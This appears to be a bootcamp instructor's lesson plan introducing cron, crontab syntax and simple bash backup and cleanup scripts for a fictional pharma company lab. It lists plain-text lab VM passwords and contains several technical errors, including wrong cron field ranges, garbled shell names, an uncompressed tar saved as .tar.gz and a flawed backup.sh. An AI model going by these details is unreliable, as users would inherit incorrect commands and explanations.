




## 5.2 Lesson Plan: Introduction to `cron` and Scheduled Jobs

### Overview

In today's class, students will use `cron` schedule and automate important maintenance and security tasks such as the moving files, updating packages and running security scans. 


### Class Objectives

By the end of class, students will be able to:

- Schedule regular jobs for individual users with crontab.

- Write simple scripts for maintenance and security tasks.

- Use `cron` to automate the execution of security scripts to perform maintenance on a regular basis.

### Instructor Notes:

- Since `cron` only runs jobs at certain times, a "pure" demonstration of the tool would require scheduling a job, then waiting for it to execute. Since this is infeasible from an instructional perspective, you will not wait for `cron` to execute jobs. Instead, focus on explaining the syntax of the crontab or script you're discussing, and assume `cron` runs them as expected.

- When editing their crontab, students using local Windows machine may not be able to save the settings properly. If so, check to make sure that the file is not saving in DOS mode. To do this, they should press `alt-M` when saving a file in nano.

- It is recommended to practice running Lynis scans. You will be expected to provide explanation of the scan results in the 09: Instructor Do. 


### Lab Environment   

You will use your local Vagrant virtual machine for today's activities. Please note that instructors and students have different access credentials.

- Instructor access:
  - Username: `instructor`
  - Password: `instructor`
  
- Student access:
  - Username:`sysadmin`
  - Password: `cybersecurity`


### Slideshow

The lesson slides are available on Google Drive here: [5.2 Slides](https://docs.google.com/presentation/d/1dyIwDmsh2NfIkrN0Wd20pea-bAFQeHRKJi3fpP_mMt4).

- To add slides to the student-facing repository, download the slides as a PDF by navigating to File > "Download as" and choose "PDF document." Then, add the PDF file to your class repository along with any other necessary files.

- Editing access is not available for this document. If you or your students wish to modify the slides, please create a copy by navigating to File > "Make a copy...".

### Time Tracker

The time tracker is available on Google Drive here: [5.2 Time Tracker](https://docs.google.com/spreadsheets/d/1xDCMdDqffO6xt2Xj8uiErKmotRuzuox7iR_1rkreWQU/edit#gid=1145703143).


### Student Guide

Distribute the student-version of this lesson plan to class: [5.2 Student Guide](StudentGuide.md)

---

### 01. Instructor Do: Welcome and Overview (0:05)

In the previous class, we archived data, scheduled data backups, and monitored log files. Now we will spend today learning methods to automate our work in an effort to become more efficient.

- Previously, we protected system stability by using `tar` to list and extract data, and to manually create backups that we can use to restore the system to an earlier state.

- Today, you will learn how to write scripts and use a tool called `cron` to schedule regular automation for many of the tasks performed last class.

Point out that many of these steps must be performed regularly to remain effective. For example, backups are only useful if they're current, and health checks are only informative if they're real-time.

Explain that system administrators address this need for constant performance by using **automation**. Automation is the process of setting tasks to execute on their own. It takes two main forms:

- **Scripts** are files that contain multiple commands. All these commands can be executed by simply calling the script name. You will touch on this today and take a deeper dive into scripting next week.

- **Scheduled jobs** allow you to run commands or scripts at specific, designated times. A scheduled job is a command or script that the system runs at a specific time interval. These will be the focus of today's lesson.

Explain that system administrators often use these tools together in the following work flow:

- **Fix an issue.** For example, making a list of all users with old passwords, then forcing those users to update their credentials.

- **Write a script to solve the issue automatically.** For example, writing the script `find_stale_users.sh`, containing the commands you ran to fix the password update issue.

- **Use `cron` to run the script and email the results regularly.** For example, using `cron` to run `find_stale_users.sh` every Saturday at noon.

Sysadmins tend to grow and scale their solutions by using scripts and scheduling to automate anything they must do more than once.

Let students know that today's class will give them all the tools they need to begin using this work flow themselves. You will start by introducing `cron` and exploring scheduled jobs, so students have a better sense of which tasks are worth being scripted. Then, you'll progress to using `cron` and scripts together.

Present the daily objectives.

Let the students know that we'll be covering the following in today's lesson:

- First, we'll discuss `cron` and how to configure simple cron jobs used to perform actions based on schedules within a Linux system.

- Then, we'll delve into the world of bash scripting and how to use scripts to combine multiple tasks into a single executable function, such as file movement, data archiving, and performing backups.

- Next, we'll revisit `cron`, using the scripts that students created, and expand upon the basic concepts of cron job and discuss the differences between user and system-wide cron jobs. There will also be a brief introduction to a tool called `lynis`, a security scanner that performs various systems integrity scans and system security audits.

- Lastly, we’ll go over a specific `cron` vulnerability and how to mitigate attacks.


Ask students if they have any questions before proceeding.

### 02. Instructor Do: Overview of `cron` (0:15)

In this section, we'll introduce `cron`. Start by covering the following scenario:

- Before leaving the office for the day, you spend ten minutes deleting your cache, emptying the trash bin, and backing up your documents folder.

- You also spend one hour per day installing software updates.

Explain that rather than spending time repeatably completing these tasks, we can automate them using a tool called **cron jobs**:

 - User-level cron jobs can automate the process of deleting cache, emptying trash and backing up documents.

 - System-level cron jobs can automate daily updates.

Define a **cron job** as a script or command designated to run at regular or periodic, predetermined intervals. They can be used for both user-level or system-level tasks.

Explain that the _cron_ in _cron job_ refers to a **system daemon** that keeps track of when to run scheduled tasks.

- A daemon is a computer program that runs as a background process, rather than being under the direct control of an interactive user.

- `cron`, (named after Kronos, the Greek god of time), is a robust tasks scheduler that allows us to schedule scripts or commands to run on a regular basis.

- `cron` is most suitable for scheduling repetitive tasks.

Explain that systems often start daemons at boot time. Daemons will then respond to network requests, hardware activity, or other programs by performing some task.

- Rather than respond to network requests or hardware activity, the `cron` daemon is initiated at designated time intervals.

`cron` tasks are scheduled in a file called **crontab**, or **cron table**.

- crontab stores lists of tasks and other instructions for the `cron` daemon to execute.

Point out that users have their own individual crontab files, which are private to them.

- Tasks scheduled by a user are run under the user's current privilege level.

- All user tasks on the system are essentially sandboxed processes that affect only the local user and not the overall system.

Point out each user, including `root`, can have a `cron` file.

- These files don't exist by default, but can be created in the `/var/spool/cron` directory using the `crontab -e` command, which is also used to edit a `cron` file.

- Emphasize that one should never edit `cron` files directly in the `/var/spool/cron` directory. This will corrupt and essentially break the `cron` service by introducing bugs into the system. The preferred method is to edit crontab files only.

Emphasize that the `cron` daemon must be running at all times in order to check the crontab at one minute intervals. This one minute interval is the default set by the system. It's imperative that administrators can ensure that `cron` service is up and running with no conflicts.

Next, we'll take a look at `cron` and crontab rules on the command line.

- Let students know that although upon first glance, a crontab rule can be intimidating, it is a concept that can be relatively easy to learn with some practice.

In the upcoming walk through, we'll focus on the following:

- General `cron` command line syntax.
- Listing the contents of the crontab with `crontab -l`.
- Editing a crontab with `crontab -e`.

#### Intro to `cron` Syntax Walkthrough

Begin by checking if the `cron` service is up and running.

  - Launch a terminal in your VM and verify that `cron` is up by running `systemctl status cron`.

  - Review the excerpt of the output below and emphasize the importance of the following line: `Active: active (running) since Wed 2019-08-28 22:03:44 PDT; 5 days ago`.

    ```bash
    ● cron.service - Regular background program processing daemon
    Loaded: loaded (/lib/systemd/system/cron.service; enabled; vendor preset: enabled)
    Active: active (running) since Wed 2019-08-28 22:03:44 PDT; 5 days ago
        Docs: man:cron(8)
    Main PID: 884 (cron)
        Tasks: 1 (limit: 2318)
    CGroup: /system.slice/cron.service
            └─884 /usr/sbin/cron -fk
    ```

  - Explain that the status `active` verifies that `cron` is running as expected. It's also important to take note how long the `cron` service has been up and running, which may be helpful during troubleshooting.

    - **Running** = running currently
    - **Active** = will run on startup

Now, we'll focus on two crontab commands:

  - `crontab -l`, which lists the contents of a crontab.

  - `crontab -e`, which allows you to edit a crontab, and also checks for syntax errors upon saving.

| :warning: Head's Up :warning: |
|:-:|
| When editing their crontab, students may not be able to save the settings properly, especially if they are using a local Windows machine. If so, check to make sure that the file is not saving in DOS mode. To do this, they should press `alt-M` when saving a file in nano. |


First, we will list the contents of a crontab using `crontab -l`.

  - Run the following command:

    `crontab -l`

  - Output should look similar to output below:

      ```bash
      # Edit this file to introduce tasks to be run by cron.
      #
      # Each task to run has to be defined through a single line
      # indicating with different fields when the task will be run
      # and what command to run for the task.
      #
      # To define the time you can provide concrete values for
      # minute (m), hour (h), day of month (dom), month (mon),
      # and day of week (dow) or use '*' in these fields (for 'any').#
      # Notice that tasks will be started based on the cron's system
      # daemon's notion of time and timezones.
      #
      # Output of the crontab jobs (including errors) is sent through
      # email to the user the crontab file belongs to (unless redirected).
      #
      # For example, you can run a backup of all your user accounts
      # at 5 a.m every week with:
      #
      #
      # For more information see the manual pages of crontab(5) and cron(8)
      #
      # m h  dom mon dow   command
      ```

  - Explain that this is the default configuration of a crontab:

    - This crontab contains comments, but no actual jobs.

    - However, note the small example of crontab syntax at the bottom: `m h  dom mon dow   command`.

- Explain that these abbreviations respectively stand for _minute_, _hour_, _day of month_, _month of year_, and _day of week_. The `command` simply refers to the command to execute.

Now we will take this time to review cron job syntax and explain how to verify whether your syntax is correct.



Using the above example, note that each value is specified with a number from the following ranges:

- Minutes are specified with 0-59.

- Hours are specified with 0-23, with 0 being midnight.

- Day of month is specified with 0-31, or however many days are in that month.

- Month of year is specified with 1-12, with 1 being January.

- Day of week is specified with 0-7, with 0 and 7 being Sunday, 1 being Monday, and so forth.

   - Some systems allow you to use three-letter abbreviations as well, such as `SAT` or `MON`. When in doubt, use numbers, which are universally understood.

- In a crontab, the `*` character means "every." For example, `*` in the day value means "every day."

Let's look at the following example:

  `0 23 * * 6     rm ~/Downloads/*`

- This job removes all files in the `~/Downloads` directory at 11pm, every Saturday, every month.

- Explain that this job is scheduled to run:

  - `0`: Minute

  - `23`: At 11 p.m.

  - `*`: Day of Month

  - `*`: Month of Year

  - `6`: Day of week

Explain that there are several tools students can use to check their syntax as they write cron jobs.

- One popular tool for **creating** crontabs is [Crontab Generator](https://crontab-generator.org), which translates cron jobs into plain English.

  - Return to your host machine and navigate to https://crontab-generator.org in a browser.

  - Use the following settings for this example: `0 6 * * 1-5`.

  - Point out that this translates to **at 6AM sharp, every week, every month, (Mon - Fri)**.

- **Note:** Point out that another popular crontab generation tool that's great for **reverse engineering crontab records** is [crontab.guru](https://crontab.guru), which is great at translating existing cron jobs into plain English.

#### Crontab Generator Demo

- First, Select your inputs, then input the commands to be executed in the **Command To Execute** box.

  

- Second, click on **Generate Crontab Line**.

  

- Lastly, **Copy** the newly generated cron job and **Paste** it into your crontab file.

  

- Done!

  - Emphasize that this and other such tools are extremely popular amongst sysadmins, and are in no way considered "cheating." Think of this as another tool in your toolbox.

Next, we will dive into editing the crontab and inserting our own custom cron jobs.

- Return to the terminal in your VM and open your crontab:

  - Run `crontab -e`.

  - **Note**: This may prompt you to select a text editor. The class should be using Nano as the text editor.

- Add the job you explained above to the bottom of the crontab file:

  - `0 6 * * 1-5     rm ~/Downloads/*`

- Before saving the file, explain that crontab automatically checks for syntax errors when you close it.

- Intentionally introduce an error by writing: `0 0 0 6 * * 1-5    rm ~/Downloads/*`. Attempt to save the file. Point out that crontab refuses and reports an error.

  ```bash
  crontab: installing new crontab
  "/tmp/crontab.j2THN1/crontab":22: bad day-of-month
  errors in crontab file, cannot install.
  Do you want to retry the same edit? (y/n)
  ```

- Correct the syntax error by entering `y`, removing the two leading `0 0`, and saving the file.

Remind students that this creates a crontab for the `instructor` user in `/var/spool/cron/crontabs`.

- Demonstrate this by running the following commands:

  - `sudo ls /var/spool/cron/crontabs` to display:

    ```bash
      instructor  jane  root	sysadmin
    ```

- In the output above, the `instructor` crontab file belongs to a user, `instructor`.

- Explain that we'll look at the contents of the `instructor` crontab file. Then run:

  - `sudo tail /var/spool/cron/crontabs/instructor` to display:

    ```bash
    # 
    # For example, you can run a backup of all your user accounts
    # at 5 a.m every week with:
    # 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
    # 
    # For more information see the manual pages of crontab(5) and cron(8)
    # 
    # m h  dom mon dow   command

    0 6 * * 1-5    rm ~/Downloads/*
    ```

- In the above output, we see the line at the bottom of the file that is a scheduled active task `rm ~/Downloads/*`. This task is scheduled to remove all files located in the `Downloads` folder, at 6am sharp, every week, every month, (Mon-Fri).

Now, we will discuss the `root` crontab and the differences between the `root` and `user` crontabs.

- Remind students that cron jobs run under the same permissions as the user who creates it. Therefore, a cron job created by user `root` runs with root privileges.

- This introduces security risks that can potentially allow anyone capable of performing privilege escalation to add a malicious cron job to the `root` crontab, thus executing commands with root privileges.

  - Emphasize to students that there are a large number of risks associated with using `cron` with root privileges. We will address these risks in our last section of the lesson.

  - Best practice is to avoid using the `root` crontab at all. However, it is important to understand that it exists and how to inspect it.

- Let students know that inspecting the `root` crontab for unauthorized or malicious entries is a critical step for ensuring the integrity of any system.

Point out that one of the differences between a `root` and `user` crontab is how they are accessed and edited. To access and edit `root`, we use `sudo`.

- Demonstrate accessing and editing `root` crontab by running:

  - `sudo crontab -l` and entering your password.

Explain that the root crontab is an exact replica of a user version, with the exception of the privilege level at which it runs and the directory where it is located.

- Also, the root crontab differs from user crontabs in that it is formatted differently, located in a different folder, and runs with root privileges.

- Explain that the `root` crontab is an exact replica of a user version, with the exception of the privilege level at which it runs and the directory where it is located.

- Remind students that the command, `sudo crontab -l`, says: run `crontab -l` as the `root` user.

  - Since `crontab -l` displays the crontab under the privileges of the user who runs it, this displays the `root` crontab, even if you are `sysadmin`, a non-`root` user.

Take a moment to address remaining questions before proceeding to first activity of the day.

### 03. Student Do: Simple Cron Jobs (0:25)

Explain the following:

- In this activity, you are a junior administrator at Rezifp Pharma Inc.

- There has been a wave of recent ransomware attacks. You will be responsible for using `cron` to automate backup jobs for the E-Prescription Treatment database.

- Rezifp Pharma Inc. maintains a large number of files associated with patients, doctors, and their treatments. Administrators at various clinics often create files that contain Personal Identifiable Information or (PII) such as email addresses, passwords, biometric records, etc.

Remind students that `cron` can either run jobs for a specific user, _or_ for the system as a whole. Since the crontab is best used for personal jobs, students will only schedule user-level tasks in this exercise. Later, they'll adapt these single commands into scripts that they will use to administer the entire system.

Send students the following files:

- [Activity File: Simple Cron Jobs](./Activities/03_Simple_Cronjobs/Unsolved/README.md)

### 04. Instructor Review: Simple Cron Jobs (0:10)

Remind students that the goal of this activity was to use `cron` to automate jobs to perform regularly scheduled backups for files that contained Personal Identifiable Information (PII) and Personal Health Information (PHI).

Completing this activity required the following steps:

- Use ` systemctl` to verify that the `cron` daemon is installed and running.
- Use ` crontab –l` to inspect user crontabs and verify their validity.
- Use ` crontab -e` to edit user crontab files.
- Use ` crontab` to automate cron jobs to move and archive files and directories.
- Verify archives after they are written to check for errors.

Send students the solution guide:

- [Solution Guide: Simple Cron Jobs](./Activities/03_Simple_Cronjobs/Solved/README.md)

#### Walkthrough:

- Use `systemctl` to verify that the `cron` daemon is installed and running.

Remind students that they can use `systemctl` to check the status of services. In particular, administrators use the command `systemctl status [service name]` to check that a service is running properly.

First, create our directories by running the following commands:

- `mkdir -p /usr/share/doctors`
- `mkdir -p /usr/share/patients`
- `mkdir -p /usr/share/treatments`

**Bonus:** Use `brace expansion` to create multiple directories.

- Run the following command:

  - `sudo mkdir -p /usr/share/{doctors,patients,treatments}`

- Explain that this will create our `doctors`, `patients`, and `treatments` directories in `/usr/share` with a single command.

- We’ll need to use `sudo` to obtain root privileges since we are creating _system directories_ as opposed to _user directories_.

Next, verify that the `cron` daemon is alive by running the commands below:

  - `systemctl status cron`

  - Your output should look similar to the below:

    **Note:** Pay particular attention to the line: `Active: active (running) since [date and time]`

    ```bash
      ● cron.service - Regular background program processing daemon
    Loaded: loaded (/lib/systemd/system/cron.service; enabled; vendor preset: enabled)
    Active: active (running) since Wed 2019-08-28 22:03:44 PDT; 5 days ago
      Docs: man:cron(8)
    Main PID: 884 (cron)
      Tasks: 1 (limit: 2318)
    CGroup: /system.slice/cron.service
            └─884 /usr/sbin/cron -f
    ```

Use ` crontab –l` to inspect user crontabs and verify its validity.

- Run the following command to inspect the user crontab:

  - `crontab -l`

- Your output should resemble the following:

  ```bash
  # Each task to run has to be defined through a single line
  # indicating with different fields when the task will be run
  # and what command to run for the task
  # 
  # To define the time you can provide concrete values for
  # minute (m), hour (h), day of month (dom), month (mon),
  # and day of week (dow) or use '*' in these fields (for 'any').# 
  # Notice that tasks will be started based on the cron's system
  # daemon's notion of time and timezones.
  # 
  # Output of the crontab jobs (including errors) is sent through
  # email to the user the crontab file belongs to (unless redirected).
  # 
  # For example, you can run a backup of all your user accounts
  # at 5 a.m every week with:
  # 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
  # 
  # For more information see the manual pages of crontab(5) and cron(8)
  # 
  # m h  dom mon dow   command

  ```

Point out that all these lines are comments, therefore there are no active cron jobs running at this time.

Use ` crontab -e` to edit user crontab files.

- Run `crontab -e`

- This will open the crontab file for editing.

Use `crontab` to automate cron jobs to move and archive files and directories.

- Before we dive into creating cron jobs, let's review the syntax of cron job:

  - The general syntax for a crontab is: `minute hour day-of-month month day-of-week command`
  - Hours are specified with numbers 0-23, where 0 is midnight, 13 is 1 p.m., 23 is 11 p.m., etc.
  - Days are specified with numbers 0-6, where 0 is Sunday, 6 is Saturday, etc.

Scroll to the bottom and add the following commands:

`0 18 * * * mv ~/Downloads/doctors*.docx /usr/share/doctors`

- This command will schedule and move all `doctors*.docx` files in `~/Downloads` to `/usr/share/doctors` every day at 6pm.

`0 18 * * * mv ~/Downloads/patients*.txt /usr/share/patients`

- This command will schedule and move all `patients*.txt` files in `~/Downloads` to `/usr/share/patients`.

`0 18 * * * mv ~/Downloads/treatments*.pdf /usr/share/treatments`

- This command will schedule and move all `treatments*.pdf` files in `~/Downloads` to `/usr/share/treatments`.

`0 23 * * 5 tar cvf ~/Documents/MedicalArchive/Medical_backup.tar.gz ~/research`

- Every Friday at 11:00 PM, this command will create a compressed tarball of all files in `~/research`. It will name the archive `Medical_backup.tar.gz` and save it in `~/Documents/MedicalArchive`.

`5 23 * * 5 gzip -t Medical_backup.tar.gz >> /usr/share/backup_validation.txt`

- **Note:** `gzip` is the command used to create a compressed tar archive that results with the following extension `tar.gz`, `tar` being the archive and `gz` is the compression of the archive.

- Every Friday at 11:05 PM, this command will verify the validity of the archive `Medical_backup.tar.gz`.

`0 4 * * * ls -l ~/Downloads > ~/Documents/Medical_files_list.txt`

- This command will perform a long listing of the `~/Downloads` directory daily at 4 AM. It will then send the output to the `~/Documents/Medical_files_list.txt`.

- Explain that now we’ll verify that our crontab has been created in `/var/spool/cron`.

  - Run `sudo ls -l /var/spool/cron/crontabs | grep instructor`

Point out that this command uses `grep` to search the `var/spool/cron/crontabs` directory for our specific user file.

- Passing our `ls with long listing` to the `grep` command will return results only for the `student`'s (`instructor` for this review) user-created crontab:

  ```bash
  total 4
  -rw------- 1 instructor crontab 1089 Oct 16 19:33 instructor
  ```

#### Activity Wrap Up

Recap the main takeaways from this exercise:

- Crontabs come in two varieties:

  - **User-level:** A job which runs for a specific user, with that user's privilege level.

  - **System-level:** A job that runs for the system, with root privileges.

- User-level crontabs are often used for "personal" tasks, such as organizing files.

- The general syntax for a crontab is:

  - `minute hour day-of-month month day-of-week command`

- Students are encouraged to use a tool like [crontab.guru](https://crontab.guru) to verify the syntax of their cron jobs prior to implementation.

Point out that the jobs written in this exercise involved only single-line commands. Administrators will often need to run tasks that involve more than one command.

- As we will see, shell scripts are extremely useful for running multiple commands simultaneously.

- We'll learn how to write and execute scripts in the next exercise.

Take a moment to address remaining questions before proceeding.

### 05. Instructor Do: Introduction to Scripts  (0:20)

Point out that `cron` is most useful for managing single function tasks, such as backing up the `/home` directory, as opposed to performing multiple tasks, such as backing up several users' home directories: for example, backing up `/home/user1`, `/home/user2`, etc.

Explain that instead of running several lines of code every day using `cron`, we can use scripting to perform all of our functions at once, and run the script once per day. The benefits of scripting becomes clear under these circumstances very quickly.

#### Writing a Script Demonstration

Launch a terminal session in Ubuntu, make sure you're working out of `/home/instructor/Documents`, then create and move into a new directory called `custom_scripts`

- Run: `cd ~/Documents`

- Run: `mkdir custom_scripts`

- Run: `cd custom_scripts`

Create a new script called `cleanup_downloads.sh` by running the following command in terminal:

- `nano cleanup_downloads.sh`

For the first line of your script, write: `#!/bin/bash`.

- Break down the syntax:

  - `#!` is called a **shebang**. It tells the shell that this file is a script that should be executed by bash.
  -  `/bin/bash` is the absolute path to the bash interpreter.
  - The shebang line specifies which interpreter to use when writing scripts.
  - For shells other than bash, or in different languages, the shebang line would indicate a different shell or language.
  - For example: for perl `#!/bin/perl`; for zcash `#!/bin/zsh`; for tcash `#!/bin/tsh`; for kash `#!/bin/ksh`

Let students know that for this lesson, we will focus exclusively on the bash shell since it's the most-used shell today.

Next, add the commands from the crontab example above to the script, exactly as you wrote them in the crontab:

  ```bash
  #!/bin/bash

  mv ~/Downloads/doctors*.docx /usr/share/doctors
  mv ~/Downloads/patients*.txt /usr/share/patients
  mv ~/Downloads/treatments*.pdf /usr/share/treatments
  ```

- Point out that this file now contains the same commands as your crontab but without the dates and times.

Save (`CTRL+X` if using `nano`) the file and perform a `ls long-listing` to emphasize that the script has been created.

- `ls -l`

  ```bash
  -rw-rw-r-- 1 instructor instructor   17 Aug  3 14:16 cleanup_downloads.sh
  ```

- Emphasize that the file permissions for this script do not contain an `x`.

- Remind students that scripts are meant to be run, or _executed_, and the execute bit is required for such files.

Set the execute bit by running the following command:

- `chmod +x cleanup_downloads.sh`

Then, rerun the long-listing to emphasize that the `x` bit is now present.

- `ls -l`

  ```bash
  -rwxrwxr-x 1 instructor instructor   17 Aug  3 14:16 cleanup_downloads.sh
  ```

Now, we can use `cron` to schedule execution of this script, rather than each individual command.

- To do this, first test the script for bugs, then update the crontab to use the script.

To test this script, we'll create some files that should move from `~/Downloads` into the appropriate subdirectories in `~/Documents`.

Move to `~/Downloads` and create several dummy files:

- `cd ~/Downloads`
- `touch treatments1.pdf treatments2.pdf`
- `touch doctors10.docx doctors11.docx`
- `touch patients20.txt patients44.txt`

Next, move back to the directory containing your script and run it:

  - `cd ~/Documents/custom_scripts`
  - `sudo ./cleanup_downloads.sh`

**:warning: Head's Up**: if you get `mv: target '/usr/share/doctors' is not a directory`, you need to run: `sudo mkdir -p /usr/share/{doctors,patients,treatments}`

Explain that `./cleanup_downloads.sh` means _run the executable file `cleanup_downloads.sh` in the current directory (`.`)_. This syntax would not work if the `x` bit had not been set with `chmod`.

Test that the script worked as expected by inspecting your `~/Downloads` directory by running:

  - `ls ~/Downloads` to display the files have been moved

Explain that we should see them in the `/usr/share` directories and run:

  - `ls /usr/share/treatments` to display:

    ```bash
    treatments1.pdf  treatments2.pdf
    ```

  - `ls /usr/share/doctors` to display:

    ```bash
    doctors10.docx  doctors11.docx
    ```

  - `ls /usr/share/patients` to display:

    ```bash
    patients20.txt  patients44.txt
    ```

Since this verifies that the script behaves as expected, we can now update our crontab to use it.

Open your crontab for editing with: 

- `crontab -e`.

Add a line that runs the script every day at 6 p.m.:

  ```bash
  0 18 * * *     ~/Documents/custom_scripts/cleanup_downloads.sh
  ```

- Save the crontab and explain that this will do the same job as before, but all of the cleanup tasks are now grouped into a single script called `cleanup_downloads.sh`.

Finally, let students know that they'll often see shell scripts saved without extensions. If a script contains a shebang line, bash doesn't need the file extension, so it is common practice to not include it.

Rename your script by running: 

- `mv ~/Documents/custom_scripts/cleanup_downloads.sh ~/Documents/custom_scripts/cleanup_downloads`

Be sure to also update your crontab. Update the line you added to:

```bash
0 18 * * *     ~/Documents/custom_scripts/cleanup_downloads
```

- We've now transformed multiple jobs that used single lines of commands into one script that executes all of the jobs.  

#### Walkthrough Wrap Up

Summarize what we've done as follows:

- Saved several commands into a single script, called `~/Documents/custom_scripts/cleanup_downloads`.
- Verified that this script behaves as expected.
- Updated our crontab to run the script instead of the three separate commands.

Using scripts allows us to complete complex tasks, such as creating backups or cleaning up multiple directories, through the execution of a single script. This results in cleaner crontabs with fewer lines of code, and the ability to schedule complex jobs that cannot be expressed by a single command.

- We will dive deeper into scripts in the coming lessons.

Let students know that the next exercise will give them an opportunity to use scripts to perform common maintenance tasks. In the exercise that follows, they'll use `cron` to schedule tasks for regular execution.

Take a moment to address remaining questions before proceeding.

### 06. Student Do: Introduction to Scripts (0:30)

Explain the following:

- In this activity, you'll continue to play the role of junior administrator at Rezifp Pharma Inc.

- In response to malware, adware, and virus attacks, your organization has asked you to ensure proper configuration management of all networking equipment and associated systems.

- Previously, you learned how to scheduled backups using `cron`. Your Senior Systems Administrator has requested that you begin automating these tasks by writing shell.

- Remind students that these hardening tasks and cleanups must run regularly to be effective, and are typically too complex to express with a single command. Grouping commands together with scripts is the typical way to automate these essential tasks and prepare them for scheduling with `cron`.

Send students the following file:

- [Activity File: Introduction to Scripts](./Activities/06_Introduction_to_Scripts/Unsolved/README.md)

### 07. Instructor Review: Introduction to Scripts Review (0:10)

:bar_chart: Run a comprehension check poll before reviewing the activity. 

Remind students that the goal of this project is to write scripts that use cron to automate various tasks such as, performing regular backups and scheduling regular software updates that help keep the system secure.

Completing this activity required the following steps:

- Create a directory to hold your scripts in `~/Security_scripts`. Then, move into this directory.
- Write shell script `backup.sh` to automate gzip-compressed archives and backups.
- Write shell script `update.sh` to automate software package updates and removal.
- Write shell script `cleanup.sh` to automate the cleanup of cache files and generate a report of system resource usage.
- Test the scripts by running them with `bash` using the `./<name_of_script>.sh` command.

Send students the following solution files:

- [Solution Guide: Introduction to Scripts](./Activities/06_Introduction_to_Scripts/Solved/README.md)

#### Walkthrough

Let students know that you will explain each solution script, starting with `backup.sh`.

Point out that we won’t create these scripts from scratch. Instead we will assume that we have already created our `~/Security_scripts` directory and have placed the solution scripts there.

Open [backup.sh](./Activities/06_Introduction_to_Scripts/Solved/backup.sh), and review the lines by covering each commented out explanation:

```bash
#!/bin/bash

# Create /var/backup if it doesn't exist
mkdir -p /var/backup

# Create compressed /var/backup/home.tar.gz
tar cvzf /var/backup/home.tar.gz /home

# Moves the file `/var/backup/home.tar.gz` to `/var/backup/home.MMDDYYYY.tar.gz`. This makes room for the next archive. 

mv /var/backup/home.tar.gz /var/backup/home.01012020.tar.gz

# Creates a gzip-compressed archive of `/home` and saves it to `/var/backup/home.tar.gz`.
tar cvzf /var/backup/system.tar.gz /home 	

# List all files in `/var/backup`, including file sizes, and save the output to `/var/backup/file_report.txt`.
ls -lh /var/backup > /var/backup/file_report.txt

# Print how much free memory your machine has left. Save this to a file called `/var/backup/disk_report.txt`.
free -h > /var/backup/disk_report.txt
```

- The first line in the file is: `#!/bin/bash`. The `#!` is referred to in the industry as **shebang** and is required for every shell in order to work. The `/bin/bash` is the environment in which the shell executes.

